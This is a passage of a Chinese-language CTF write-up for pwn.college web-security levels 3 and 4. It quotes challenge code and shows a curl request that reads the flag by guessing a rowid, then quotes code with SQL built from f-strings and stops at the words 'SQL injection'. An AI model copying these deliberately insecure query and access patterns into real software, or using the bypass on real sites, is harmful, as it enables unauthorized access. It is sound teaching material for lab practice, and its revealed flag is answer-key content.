 在运行以后出现这个界面

一开始以为是弱口令，试了好几个都不太星，然后看了一下源代码
```
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))

    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```
发现重点在于rowid
```
hacker@web-security-level-3:~$ curl -X GET "http://challenge.localhost:80/?user=1"
pwn.college{8_5yNK5tBFzbFE9oz5e05zoS6-a.dlDOzMDL2QjMyMzW}
```
这道题的重点就是找到绕过这个界面的方法。也就是说我们如果看到的是那个输入的页面，只有输入正确的flag才行，但是我们想要的就是flag，怎么可能输入进去？

因此正确的做法是只使用GET请求，构造合理的请求包。

当然为什么user=1，要看这个[视频](https://youtu.be/0qSzKxjlRQ0?list=PL-ymxv0nOtqqW1sDfN6UGUfJTcYqYH9CM&t=2085)，我其实是瞎猜的，但是应该是看一下返回包。

## level4 Exploit a structured query language injection vulnerability to login
还是看代码
```
        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"
```
SQL注入
